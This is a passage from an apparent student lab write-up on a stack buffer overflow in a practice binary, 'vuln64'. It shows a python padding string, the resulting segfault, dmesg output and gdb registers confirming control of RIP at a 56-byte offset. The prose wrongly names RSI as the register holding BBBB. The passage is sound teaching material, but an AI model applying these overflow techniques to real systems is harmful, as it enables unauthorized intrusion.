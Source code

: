 To confirm the offset, open another terminal, run a small python command and execute the vuln64 program again. Place the string into the prompt to overflow the buffer

```sh
┌──(student㉿kali)-[~/Desktop/assign2/app]
└─$ python -c 'print "A"*56 + "BBBB"'
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
                                                                                                              
┌──(student㉿kali)-[~/Desktop/assign2/app]
└─$ ./vuln64 h
This is an admin tools to run programs with elevated privileges
Press Enter to return...
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
zsh: segmentation fault  ./vuln64 h

```

Execute the below command to verify the cause of the segfault.

```sh
┌──(student㉿kali)-[~/Desktop/assign2/app]
└─$ sudo dmesg | grep -i segfault                                                                       139 ⨯
[sudo] password for student: 
[  297.389068] vuln64[1306]: segfault at 42424242 ip 0000000042424242 sp 00007ffc3f30c280 error 14 in libc-2.31.so[7f638cded000+25000]

```

Returning to gdb, we perform the same and see that the RSI register is filled with BBBB, which indicates we have control over the execution flow of the program. 

> **Note** :The RIP register on x86-64 is a special purpose register that holds the memory address of the next executable instruction.

```sh
gdb-peda$ r h
Starting program: /home/student/Desktop/assign2/app/vuln64 h
This is an admin tools to run programs with elevated privileges
Press Enter to return...
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
RAX: 0x7ffc9187ddb0 ('A' <repeats 56 times>, "BBBB")
RBX: 0x0 
RCX: 0x7f6824ad5980 --> 0xfbad2288 
RDX: 0x0 
RSI: 0x7996b1 ('A' <repeats 55 times>, "BBBB\n")
RDI: 0x7f6824ad8680 --> 0x0 
RBP: 0x4141414141414141 ('AAAAAAAA')
RSP: 0x7ffc9187ddf0 --> 0x7ffc9187e048 --> 0x7ffc9187e409 ("/home/student/Desktop/assign2/app/vuln64")
RIP: 0x42424242 ('BBBB')
R8 : 0x7ffc9187ddb0 ('A' <repeats 56 times>, "BBBB")

```
